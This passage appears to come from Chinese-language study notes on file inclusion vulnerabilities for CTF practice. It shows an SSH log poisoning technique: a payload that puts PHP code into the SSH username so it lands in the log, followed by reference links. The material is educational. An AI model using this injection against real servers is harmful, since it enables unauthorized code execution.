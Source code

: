 成功执行

![](/文件包含.assets/apache_2.png)

<br/>

### 包含SSH日志
当知道SSH的日志文件路径时，可以采用包含SSH日志，Centos7需要注意SELinux和防火墙
payload:`ssh -p 22 "<?php phpinfo(); ?>"@192.168.133.131`
![](/文件包含.assets/ssh_0.png)


- 参考(侵删)
[CTF中文件包含漏洞总结](https://blog.csdn.net/qq_42181428/article/details/87090539?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.nonecase&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.nonecase)
[https://www.freebuf.com/articles/web/182280.html](https://www.freebuf.com/articles/web/182280.html)
[https://segmentfault.com/a/1190000018991087#item-3](https://segmentfault.com/a/1190000018991087#item-3)


